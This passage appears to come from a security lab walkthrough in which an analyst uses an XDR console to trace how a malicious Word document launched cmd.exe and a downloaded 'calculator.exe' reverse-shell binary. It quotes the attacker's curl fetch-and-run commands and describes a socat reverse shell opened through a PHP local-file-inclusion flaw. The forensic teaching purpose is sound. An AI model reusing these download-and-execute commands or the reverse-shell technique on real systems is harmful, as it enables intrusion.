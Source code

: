 What we still don't know is where the malware came from. However, what's interesting in this causality chain is that calculator.exe was called out by the cmd.exe process on behalf of the Microsoft Word application! One thing to note is that the microsoft word executable is not encircled with red which means XDR knows the application has a trusted signature on it, so there is a possibility that something within the document it was accessing was likely the root cause. What's nice about XDR is that we can see the Causality Group Owner (CGO) command that led to any given process being referenced. If we click on the calculator.exe bubble we can scroll to the right in the process tab (or most any other tab for that matter) to see what specifically called out this exe:
<img src = 'https://github.com/TechRinger/SecurED/blob/68a3905375e19c826402a0b95054d394e921e8d1/docs/images/contactlist.png'>
It looks like the "WINWORD.EXE" process was responsible for the executable being launched and specifically the document named "Steph and Chris contacts list". To see specifically what this document was doing, we can select the cmd.exe bubble that is to the right of the WINWORD.exe bubble to look for something that will help us out. In this case, the description is sufficient, but there are several places within the alerts/actions pane that will show us the target commands the process made:
<img src = 'https://github.com/TechRinger/SecurED/blob/3366fd46f04006a2f979cda9a8781db8e2b506d5/docs/images/calculatorcalloutword.png'>
It looks like the word process spawned a few commands with some very useful information in them:

	curl -o ... http://172.168.160.104/calculator.exe
	c:\Users\Publice\calculator.exe

The most notable thing is that, yet again, we see our public webserver referenced as the location to grab the malware we've seen many times up to this point. But why was this function done via word this time? Things we can infer:

	a) We know that almost all of the malicious files thus far (save for LB3.exe) have been grabbed directly from the web server
	b) The web server is the only publicly available asset thanks to DNAT (or FQDN with pubilc IP)
	c) None of the other infected boxes are workstations, which is likely why we don't see WINWORD.exe giving us headaches anywhere else.

What this tells me is that there was likely a vulnerability on the web server that needs to get patched up, and that if it was exploited and is used as a file server for the calculator.exe malware rather than just placing it directly on the user machines and servers that the attacker was unable to branch out of the DMZ zone. The next course of action they took after staging the reverse shell executable was to try to reach out to users likely via a phishing campaign, enticing them to grab the file and run it to give him access to domain computers.

From here, let's go back to the dashboard and investigate that other incident with a score of 20:
<img src = 'https://github.com/TechRinger/SecurED/blob/440715f82dc64671091bece54ea134571478c71c/docs/images/incident20.png'>
When we get to the incident section select "See all" alert sources. When we get to the alerts for that incident, we can scroll over to the description section to tell us all we need to know! We see that there seem to be several alerts tied to "Web application attack detection":
<img src = 'https://github.com/TechRinger/SecurED/blob/440715f82dc64671091bece54ea134571478c71c/docs/images/lfi.png'>
This shows us that there was a PHP script that was run to open a reverse shell to 172.16.160.100 using socat (netcat alternative) which should NOT be something that is allowed on a web server (include statement is a web security vulnerability allowing for Local File Inclusion (LFI) in the URL path). This may be where everything started and if not for some security hygiene oversights, this entire attack could have been prevented! While this does not confirm that this is how calculator.exe was put on the server, we can go to the query builder to search for that filename and see when the first occurrence of it being seen on our network was.
